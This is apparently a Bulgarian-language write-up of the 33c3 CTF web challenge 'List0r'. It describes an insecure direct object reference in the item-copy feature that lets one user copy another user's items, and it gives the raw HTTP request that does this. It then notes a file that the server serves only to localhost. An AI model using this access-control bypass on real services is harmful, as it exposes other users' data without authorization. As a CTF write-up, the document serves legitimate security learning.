


# **List0r** - 400 точки
> **33c3ctf/web**




отдалечен уеб сървър: http://78.46.224.80/

Първата уязвима функция която открих се намира във функцията за копиране на item от list-овете който можем да създаваме. 



Уязвимоста ни позволява да правим хоризонтални ескалаций в правата и да копираме чужд item в наш list. 

```
GET /?target=<int(4453)-ID на нашия list>&page=item&action=copy&item=<int-номер на item който искаме да копираме в нашия лист> HTTP/1.1
Host: 78.46.224.80
Accept-Encoding: gzip, deflate, sdch
Accept-Language: en-US,en;q=0.8
Cookie: PHPSESSID=bh3hcnmsltvp97oaobcivap6g7
Connection: close
```

Направих бързо енумериране(и прехвърляне) на 1вите създаде items и ето че този с номер 5 ни издава нещо интересно:


Оказва се обаче че файлът не може да бъде достъпен директно с GET заявка към сървъра. 

Файлът трябва да бъде достъпен през localhost

```
403 - Sorry, but this is only accessible from 127.0.0.1
```


